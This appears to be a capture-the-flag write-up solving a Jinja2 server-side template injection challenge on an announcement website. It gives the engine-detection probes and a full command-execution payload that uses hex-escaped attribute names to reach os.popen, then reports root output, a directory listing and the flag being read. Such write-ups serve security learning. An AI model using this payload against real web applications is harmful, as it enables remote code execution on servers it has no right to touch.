






- Description

    I made a cool website where you can announce whatever you want! Try it out!
    I heard templating is a cool and modular way to build web apps! Check out my website here!

- Hints
    `1. Server Side Template Injection`

    

- To solve this SSTI problem, you first need to know about it. You can read [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

    

- I try payload `{{ 7 * 7 }}` and `{{ 7 * '7' }}`to detect the web template engine (Jinja2 if 7*'7' returns 7777777)

    

- I used payload. You can refer to at [here](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

    ```python3
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
    ```
    
    - The site returns the user id as `root`

    

    - Now you can execute the payload (Replace `id`)

    - Listing the dir

    

    - Read the flag

    